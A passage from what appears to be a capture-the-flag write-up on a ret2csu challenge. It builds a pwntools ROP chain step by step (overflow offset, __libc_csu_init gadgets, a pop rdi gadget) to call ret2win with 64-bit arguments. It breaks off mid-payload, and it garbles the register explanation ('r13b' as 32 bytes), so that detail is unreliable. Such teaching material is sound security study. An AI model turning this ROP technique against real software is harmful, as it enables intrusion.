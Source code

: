 Ok, now let's run the script again with our modified payload and see what happens! 

```python
payload = flat([
        offset * 'a',
        pop_gadgets,
        0x0,
        0x1,
        fini_pointer,
        0xdeadbeefdeadbeef,
        0xcafebabecafebabe,
        0xd00df00dd00df00d,
        mov_gadgets,
        0x0, 
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        ret2win
])
```

Rats!! We got another segfault!! Back into `gdb` we go. 

Jumping back into `gdb` we can see that we are indeed getting the `ret2win()` function to execute! However, the program exits due to "incorrect parameters". Upon closer inspection, the `rdi` register, which is supposed to contain the first argument of `0xdeadbeefdeadbeef`, only contains `0xdeadbeef`. Looking back through our gadgets it becomes clear why. 

The gadget responsible for moving the `r13` register into the `rdi` register is moving `r13b` into `edi`, like so; `mov edi, r13b`. Even though the full argument is popped into `r13`, only the lower 32 bits (`r13b` represents the lower 32 bytes of the `r13` register) are moved into `rdi`. Or, in this case, the lower `32` bits of the full `rdi` register which here is represented as `edi`. 

So, one thing we can do, is to try and find a `pop rdi; ret;` gadget within the binary to try and pop the full 64 bit argument into the `rdi` register. And what do ya know, there is one! We lucked out :)

![](pop_rdi.png)

Now, with our updated payload, we should get the flag! 

```python
pop_rdi = 0x00000000004006a3
payload = flat([
        offset * 'a',
        pop_gadgets,
        0x0,
        0x1,
        fini_pointer,
        0xdeadbeefdeadbeef,
        0xcafebabecafebabe,
        0xd00df00dd00df00d,
        mov_gadgets,
        0x0, 
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        0x0,
        pop_rdi,
        0xdeadbeefdeadbeef,
```